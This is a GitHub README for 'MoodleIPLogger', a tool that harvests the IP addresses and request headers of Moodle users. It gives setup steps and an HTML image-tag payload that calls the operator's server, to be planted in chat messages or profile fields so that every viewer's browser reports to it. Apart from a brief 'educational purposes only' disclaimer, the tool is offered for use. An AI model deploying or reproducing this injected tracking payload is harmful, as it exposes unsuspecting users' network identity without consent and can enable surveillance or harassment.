 # MoodleIPLogger
Log the IP of any moodle user by using manipulated HTML.
You can also get some default response headers.

## Disclaimer

This project is for educational purposes only.

We are not responsible for any illegal actions commited with this project.

## Installation

### Clone the repository

```
mkdir MoodleIPLogger
cd MoodleIPLogger
git clone https://github.com/SirLennox/MoodleIPLogger
```
### Install Node Packages

```
$ npm install
```

## Run the server

```
npm run start
```

## Use

You can put this HTML String everywhere HTML is allowed (like the Chat or your About Me)

```
<img src="https://<serverip>:3000/log">
```

## Note

**Please create an issue if the IPLogger isn't working anymore!**

